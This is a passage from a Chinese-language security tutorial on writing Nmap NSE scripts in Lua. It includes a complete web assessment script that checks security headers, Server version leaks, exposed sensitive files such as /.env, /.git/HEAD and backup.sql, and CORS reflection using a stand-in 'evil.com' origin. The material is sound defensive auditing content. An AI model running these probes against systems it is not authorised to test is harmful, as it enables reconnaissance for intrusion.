    local verbose = nmap.get_script_args(SCRIPT_NAME .. ".verbose") == "true"
    
    -- 构建请求URL
    local scheme = (port.number == 443) and "https" or "http"
    local base_url = string.format("%s://%s:%d", scheme, host.ip, port.number)
    
    -- 执行检测
    local response = http.get(base_url, {timeout = timeout})
    if not response then
        return stdnse.format_output(false, "HTTP请求失败")
    end
    
    -- 分析响应
    local result = analyze_response(response)
    
    -- 格式化输出
    if result then
        local output = stdnse.output_table()
        output.status = "Vulnerable"
        output.details = result
        return output
    end
end

function analyze_response(response)
    -- 实现具体的分析逻辑
    -- 返回分析结果或nil
    -- ...
end
```

### 33.2.11 实战案例：企业Web应用安全评估脚本

将以上所有技术点整合，以下是一个完整的企业级Web安全评估脚本示例：

```lua
local http = require "http"
local nmap = require "nmap"
local shortport = require "shortport"
local stdnse = require "stdnse"
local string = require "string"
local table = require "table"

description = [[
企业Web应用安全综合评估脚本
检测范围：
  1. 敏感文件暴露（.git, .env, backup等）
  2. 安全响应头缺失（X-Frame-Options, CSP, HSTS等）
  3. 服务器信息泄露（Server头版本暴露）
  4. 目录遍历漏洞
  5. CORS配置错误
]]

author = "Security Team"
categories = {"discovery", "safe"}

portrule = shortport.http

-- 安全响应头检查清单
local security_headers = {
    {
        name = "X-Frame-Options",
        description = "防止点击劫持攻击",
        severity = "Medium"
    },
    {
        name = "X-Content-Type-Options",
        description = "防止MIME类型嗅探",
        severity = "Low"
    },
    {
        name = "Strict-Transport-Security",
        description = "强制HTTPS传输（仅HTTPS端口检查）",
        severity = "Medium",
        https_only = true
    },
    {
        name = "Content-Security-Policy",
        description = "防止XSS和数据注入攻击",
        severity = "High"
    },
    {
        name = "X-XSS-Protection",
        description = "浏览器XSS过滤器（现代浏览器已弃用，但仍建议设置）",
        severity = "Low"
    }
}

-- 敏感路径清单
local sensitive_paths = {
    {path = "/.git/HEAD", desc = "Git仓库泄露"},
    {path = "/.env", desc = "环境变量文件泄露"},
    {path = "/web.config", desc = "IIS配置文件泄露"},
    {path = "/server-status", desc = "Apache服务器状态页暴露"},
    {path = "/phpinfo.php", desc = "PHP信息泄露"},
    {path = "/.svn/entries", desc = "SVN仓库泄露"},
    {path = "/backup.sql", desc = "数据库备份文件泄露"},
    {path = "/robots.txt", desc = "敏感路径目录（需检查disallow项）"}
}

action = function(host, port)
    local results = {
        security_headers = {},
        sensitive_files = {},
        server_info = {},
        cors_misconfig = {},
        summary = {}
    }
    
    local scheme = (port.number == 443) and "https" or "http"
    local base_url = string.format("%s://%s:%d", scheme, host.ip, port.number)
    
    stdnse.debug(1, "开始安全评估: %s", base_url)
    
    -- 1. 首页请求，收集基础信息
    local main_response = http.get(base_url, {timeout = 5000, redirect = false})
    if not main_response then
        return stdnse.format_output(false, "无法连接到目标")
    end
    
    -- 分析服务器信息泄露
    local server_header = main_response.headers["server"]
    if server_header then
        -- 检查是否暴露了版本信息
        local version_pattern = "[%d]+%.%d+%.?%d*"
        if string.match(server_header, version_pattern) then
            results.server_info.exposed = true
            results.server_info.header = server_header
            results.server_info.severity = "Medium"
            results.server_info.description = "Server头暴露了版本信息，建议移除版本号"
        end
    end
    
    -- 2. 安全响应头检查
    for _, header_check in ipairs(security_headers) do
        -- 跳过仅HTTPS检查项（非HTTPS端口）
        if header_check.https_only and port.number ~= 443 then
            goto continue
        end
        
        local header_value = main_response.headers[string.lower(header_check.name)]
        if not header_value then
            table.insert(results.security_headers, {
                header = header_check.name,
                status = "MISSING",
                severity = header_check.severity,
                description = header_check.description
            })
        else
            -- 检查头值是否合理（例如X-Frame-Options应该是DENY或SAMEORIGIN）
            if header_check.name == "X-Frame-Options" then
                local value_lower = string.lower(header_value)
                if value_lower ~= "deny" and value_lower ~= "sameorigin" then
                    table.insert(results.security_headers, {
                        header = header_check.name,
                        status = "INVALID",
                        value = header_value,
                        severity = "Medium",
                        description = "X-Frame-Options值应为DENY或SAMEORIGIN"
                    })
                end
            end
        end
        
        ::continue::
    end
    
    -- 3. 敏感文件暴露检测
    for _, file in ipairs(sensitive_paths) do
        local response = http.get(base_url .. file.path, {
            timeout = 5000,
            redirect = false
        })
        if response and response.status == 200 then
            -- 验证不是自定义404页面
            local body = response.body or ""
            if #body > 0 and not string.find(body, "404") then
                table.insert(results.sensitive_files, {
                    path = file.path,
                    description = file.desc,
                    status = response.status,
                    size = #body
                })
            end
        end
    end
    
    -- 4. CORS配置检查
    local cors_response = http.get(base_url, {
        timeout = 5000,
        header = {
            ["Origin"] = "http://evil.com"
        }
    })
    if cors_response then
        local acao = cors_response.headers["access-control-allow-origin"]
        if acao then
            if acao == "*" then
                results.cors_misconfig = {
                    status = "WILDCARD",
                    severity = "High",
                    description = "Access-Control-Allow-Origin设置为*，允许任意源跨域访问"
                }
            elseif string.find(acao, "evil.com") then
                results.cors_misconfig = {
                    status = "REFLECTED",
                    severity = "Critical",
                    description = "CORS配置回显了攻击者控制的Origin，可绕过同源策略",
                    evidence = "Access-Control-Allow-Origin: " .. acao
                }
            end
        end
    end
    
    -- 生成汇总
    results.summary = {
        security_header_issues = #results.security_headers,
        sensitive_files_found = #results.sensitive_files,
        server_info_leak = results.server_info.exposed and "Yes" or "No",
        cors_issue = results.cors_misconfig.status or "None"
    }
    
    if results.summary.security_header_issues > 0 
       or results.summary.sensitive_files_found > 0
       or results.server_info.exposed
       or results.cors_misconfig.status then
        return results
    end
end
```

### 33.2.12 扩展阅读与资源

| 资源 | 地址 | 说明 |
|------|------|------|
| Nmap官方NSE文档 | https://nmap.org/book/nse.html | NSE脚本开发权威参考 |
| NSE脚本库源码 | https://github.com/nmap/nmap/tree/master/scripts | 官方脚本实现参考 |
| Lua 5.1参考手册 | https://www.lua.org/manual/5.1/ | NSE使用的Lua版本文档 |
| NSE标准库API | https://nmap.org/nsedoc/ | 所有NSE库的API文档 |
| Nmap安全扫描指南 | https://nmap.org/book/ | Nmap完整使用手册 |

掌握NSE脚本开发后，你可以构建定制化的安全检测流水线，将组织特有的安全策略编码为可复用的脚本。结合Nmap的扫描引擎和NSE的扩展能力，能够实现从简单端口扫描到深度安全审计的完整覆盖。下一步建议学习Metasploit模块开发（33.3节），将NSE的发现与Metasploit的利用能力打通。
